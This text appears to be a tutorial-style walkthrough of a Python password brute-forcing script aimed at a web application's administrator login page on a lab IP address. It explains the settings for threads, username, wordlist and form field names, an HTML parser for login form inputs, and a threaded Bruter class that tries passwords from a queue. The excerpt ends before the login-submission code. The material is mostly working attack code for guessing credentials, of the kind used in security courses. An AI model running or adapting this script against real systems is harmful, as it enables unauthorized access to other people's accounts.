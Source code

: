 - General settings for the script, including the number of threads (`user_thread`), the target username (`username`), the wordlist file (`wordlist_file`), and an optional resume point (`resume`).

```python
# target specific settings
target_url = "http://192.168.112.131/administrator/index.php"
target_post = "http://192.168.112.131/administrator/index.php"
```

- Target-specific settings for the web application being targeted, including the URLs for the login page (`target_url`) and the form submission (`target_post`).

```python
username_field = "username"
password_field = "passwd"

success_check = "Administration - Control Panel"
```

- More target-specific settings, including the names of the username and password fields in the HTML form (`username_field`, `password_field`), and a string indicating a successful login (`success_check`).

```python
class BruteParser(HTMLParser, ABC):
    def __init__(self):
        HTMLParser.__init__(self)
        self.tag_results = {}

    def handle_starttag(self, tag, attrs):
        if tag == "input":
            tag_name = None
            for name, value in attrs:
                if name == "name":
                    tag_name = value
                if tag_name:
                    self.tag_results[tag_name] = value
```

- Definition of a custom HTML parser class (`BruteParser`) that inherits from `HTMLParser`. It is used to parse HTML and extract input field names and values.

```python
class Bruter(object):
    def __init__(self, user, words_q):
        self.username = user
        self.password_q = words_q
        self.found = False
        print("Finished setting up for: %s" % user)

    def run_bruteforce(self):
        for i in range(user_thread):
            t = threading.Thread(target=self.web_bruter)
            t.start()

    def web_bruter(self):
        while not self.password_q.empty() and not self.found:
            brute = self.password_q.get().rstrip()
            jar = http.cookiejar.FileCookieJar("cookies")
            opener = urllib.request.build_opener(
                urllib.request.HTTPCookieProcessor(jar))

            response = opener.open(target_url)
            page = response.read()

            print("Trying: %s : %s (%d left)" % (
                self.username, brute, self.password_q.qsize()))

```